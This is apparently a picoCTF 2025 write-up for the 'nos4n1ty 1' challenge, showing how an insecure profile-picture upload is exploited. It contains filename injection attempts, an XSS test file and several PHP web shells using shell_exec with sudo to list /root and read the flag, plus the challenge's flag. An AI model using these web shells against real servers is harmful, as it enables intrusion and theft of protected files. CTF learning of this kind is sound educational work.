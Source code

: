 ![image](https://github.com/user-attachments/assets/d419866d-6107-475a-ab0c-0fae5d35fdf1)<h1>nos4n1ty 1</h1>

From: https://play.picoctf.org/practice/challenge/482

Author: Prince Niyonshuti N.

Description: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Tags: Easy, Web Exploitation, picoCTF2025, browser_webshell_solvable
---

<h2>General functionality</h2>
Upon launching the instance, the user is prompted to upload a profile picture via the following interface on the website:

![image](https://github.com/user-attachments/assets/c9f1df2a-a2ee-4b48-893e-25a27dea6eb4)

When the picture is uploaded, a confirmation string is returned in a basic html page called /upload.php

![image](https://github.com/user-attachments/assets/48dfad7b-0c32-47dc-9c5e-fb9faa12ee4c)

The html file for the page reveals what I understand to be the image loading and previewing script:

![image](https://github.com/user-attachments/assets/c2fb1ec3-f285-469c-b738-e3c08e3457fd)

<h2>Initial Thoughts</h2>

So, we know that PHP is in use by the URL after submitting the image. We also know that the name of the file uplaoded is returned to us in a confirmation page. We might be able to inject script to this system by creating a specific file name.

We will aim for remote code execution, since this may allow us to retrieve the contents of files stored in the root of the system.

From: https://www.imperva.com/learn/application-security/php-injection/
__"RCE happens when a threat actor uploads code into your website and executes it. Typically, the source of the issue is a PHP bug that accepts user input and then evaluates it as PHP code. For example, threat actors can exploit a RCE vulnerability to create a file that contains a malicious script, designed to let the actor gain access to the target website."__

<h2>Experimentation</h2>

Sending filename: `;phpinfo();`
- returns: `The file ;phpinfo(); has been uploaded Path: uploads/;phpinfo();`

Sending filenmae: `<?php eval ("echo ".$REQUEST["uploads"].";"); ?>`
- returns `The file <?php eval (%22echo %22.$REQUEST[%22uploads%22].%22;%22); ?> has been uploaded Path: uploads/`

This means that quotation marks are being replaced with "%22". This might mean that the filename we have sent is being parsed via rawurlencode() as per https://www.php.net/manual/en/function.rawurlencode.php which describes the function as:
__"Returns a string in which all non-alphanumeric characters except -_.~ have been replaced with a percent (%) sign followed by two hex digits. This is the encoding described in » RFC 3986 for protecting literal characters from being interpreted as special URL delimiters, and for protecting URLs from being mangled by transmission media with character conversions (like some email systems)."__

When I try to go the url after uploading my image... `http://standard-pizzas.picoctf.net:62426/uploads/%3C?php%20eval%20(%22echo%20%22.$REQUEST[%22uploads%22].%22;%22);%20?%3E`

We get a URL not found error, but also the text: `Apache/2.4.54 (Debian) Server at standard-pizzas.picoctf.net Port 62426` which might be a clue as to the available vulnerabilties.

After trying a few more injection types with the file name, I gave up and started prodding the other type of input santization - whether the file being uploaded is actually an image.

I prompted chat GPT for a mockup html and JS injection payload to see whether this is an avenue I should pursue.

Sending the following file and navigating to its path in the url...: 
```
<!-- test.html -->
<script>alert('XSS via HTML file');</script>
```
- returns:
![image](https://github.com/user-attachments/assets/c0b25a42-c7c4-4f6a-84d2-4ce213cd0cab)

This shows that its possible to get new HTML and Javascript onto the server via the file upload.

<h2>Exploring remote execution</h2>

After some further experimentation, I created a .php file with the code `<?php phpinfo(); ?>`. When I then navigated to that page on the server, many details about the installation were revealed. Some interesting ones have been noted below:

`System 	Linux challenge 6.8.0-1024-aws #26-Ubuntu SMP Tue Feb 18 17:22:37 UTC 2025 x86_64 `
`PHP API 	20190902`
`Apache Version 	Apache/2.4.54 (Debian)`
`Server Administrator 	webmaster@localhost`
`Server Root 	/etc/apache2`
`PHP Version 	7.4.33`
`cURL support 	enabled`
`cURL Information 	7.74.0`
`PWD 	/challenge`

From https://www.php.net/manual/en/function.shell-exec.php I took an example for shell execution code and modified it to show all files in an active directory.
Sending:
```
<?php
$output = shell_exec('ls -la');
echo "<pre>$output</pre>";
?>
```
- returns: 
![image](https://github.com/user-attachments/assets/af4ae45e-da96-4134-ae48-688baec353a1)

It seems that, I can execute shell code, and see list the files in the current directory.

I wasn't able to shift directories via cd, but instead I can change the ls command to different directory using this payload
```
<?php
$output = shell_exec('ls /root -l');
echo "<pre>$output</pre>";
?>
```
However, this returns a blank page, how interesting...

with only specify the / directory, I can see the file structure for the machine:
![image](https://github.com/user-attachments/assets/543f62ec-0f89-440f-86e3-709b57bde680)

When sending the this command with `ls -la` command, we can see the priviliges for the different directories, notice that root doesn't have many permissions
![image](https://github.com/user-attachments/assets/0ab4744a-1bcb-47c5-8a48-59bdd525466e)

from: https://linuxhandbook.com/linux-file-permissions/ this means that only an administrator can view this directory:
![image](https://github.com/user-attachments/assets/eb1aabfa-1dc3-4636-9a92-c1d7aeb56c61)

modifying the code to be:
```
<?php
$output = shell_exec('sudo ls /root -l');
echo "<pre>$output</pre>";
?>
```
- returns:
![image](https://github.com/user-attachments/assets/22230c0f-b698-485f-9790-7de542fb6364)

Cool! we can see the flag!

lets try the same shell code, but cat the file directly with the full path.
```
<?php
$output = shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```
returns:
![image](https://github.com/user-attachments/assets/72047e65-403e-4cd0-bc23-2453883970c7)

__`picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`__

Whoopee!









